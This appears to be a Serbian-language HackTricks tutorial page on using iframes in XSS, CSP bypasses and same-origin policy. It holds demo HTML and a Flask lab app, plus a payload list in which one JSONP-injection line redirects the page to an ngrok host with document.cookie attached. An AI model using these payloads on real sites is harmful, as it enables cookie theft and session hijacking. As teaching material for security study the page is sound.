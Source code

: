 # Iframes in XSS, CSP and SOP

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Iframeovi u XSS-u

Postoje 3 načina za prikazivanje sadržaja iframirane stranice:

* Putem `src` koji pokazuje na URL (URL može biti sa različitog ili istog izvora)
* Putem `src` koji pokazuje na sadržaj koristeći `data:` protokol
* Putem `srcdoc` koji pokazuje na sadržaj

**Pristupanje varijablama roditelja i deteta**

```html
<html>
<script>
var secret = "31337s3cr37t";
</script>

<iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if2" src="child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

<script>
function access_children_vars(){
alert(if1.secret);
alert(if2.secret);
alert(if3.secret);
alert(if4.secret);
}
setTimeout(access_children_vars, 3000);
</script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```

Ako pristupite prethodnom HTML-u putem HTTP servera (kao što je `python3 -m http.server`), primetićete da će se svi skriptovi izvršiti (jer nema CSP koji to sprečava). **Roditelj neće moći da pristupi promenljivoj `secret` unutar bilo kog iframe-a**, a **samo iframe-ovi if2 i if3 (koji se smatraju istog sajta) mogu pristupiti tajni** u originalnom prozoru.\
Primetite kako se smatra da if4 ima `null` poreklo.

### Iframe-ovi sa CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Molimo, primetite kako u sledećim zaobilascima odgovor na iframed stranici ne sadrži CSP zaglavlje koje sprečava izvršavanje JS koda.
{% endhint %}

Vrednost `self` za `script-src` neće dozvoliti izvršavanje JS koda koristeći `data:` protokol ili atribut `srcdoc`.\
Međutim, čak i vrednost `none` CSP-a će dozvoliti izvršavanje iframe-ova koji stavljaju URL (potpuni ili samo put) u atribut `src`.\
Stoga je moguće zaobići CSP stranice sa:

```html
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
<script>
var secret = "31337s3cr37t";
</script>
<iframe id="if1" src="child.html"></iframe>
<iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```

Primetite kako **prethodna CSP dozvoljava izvršavanje samo inline skripte**.\
Međutim, **samo će se izvršiti skripte `if1` i `if2`, ali samo `if1` će moći pristupiti roditeljskom tajnom podatku**.

![](<../../.gitbook/assets/image (627) (1) (1).png>)

Stoga je moguće **zaobići CSP ako možete otpremiti JS datoteku na server i učitati je putem iframe-a čak i sa `script-src 'none'`**. Ovo se **potencijalno može postići i zloupotrebom JSONP endpointa sa istim sajtom**.

Možete testirati ovo sa sledećim scenarijem gde se kolačić ukrade čak i sa `script-src 'none'`. Samo pokrenite aplikaciju i pristupite joj preko svog pregledača:

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
resp.headers['Content-Security-Policy'] = "script-src 'self'"
resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
return resp

@app.route("/cookie_s.html")
def cookie_s():
return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
app.run()
```

### Ostali Payloadi pronađeni u divljini <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>

```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### Iframe sandbox

Sadržaj unutar iframe-a može biti podvrgnut dodatnim ograničenjima korišćenjem `sandbox` atributa. Po default-u, ovaj atribut se ne primenjuje, što znači da nema ograničenja.

Kada se koristi, `sandbox` atribut nameće nekoliko ograničenja:

* Sadržaj se tretira kao da potiče sa jedinstvenog izvora.
* Blokira se svaki pokušaj slanja formi.
* Izvršavanje skripti je zabranjeno.
* Onemogućen je pristup određenim API-ima.
* Onemogućava se interakcija linkova sa drugim pregledačkim kontekstima.
* Upotreba dodataka putem `<embed>`, `<object>`, `<applet>` ili sličnih oznaka nije dozvoljena.
* Onemogućeno je navigiranje sadržaja najvišeg nivoa pregledačkog konteksta od strane samog sadržaja.
* Blokirane su funkcionalnosti koje se automatski pokreću, poput reprodukcije video zapisa ili automatskog fokusiranja kontrola forme.

Vrednost atributa može biti prazna (`sandbox=""`) kako bi se primenila sva navedena ograničenja. Alternativno, može se postaviti kao razmakom odvojena lista specifičnih vrednosti koje izuzimaju iframe od određenih ograničenja.

```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```

## Iframeovi u SOP-u

Proverite sledeće stranice:

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
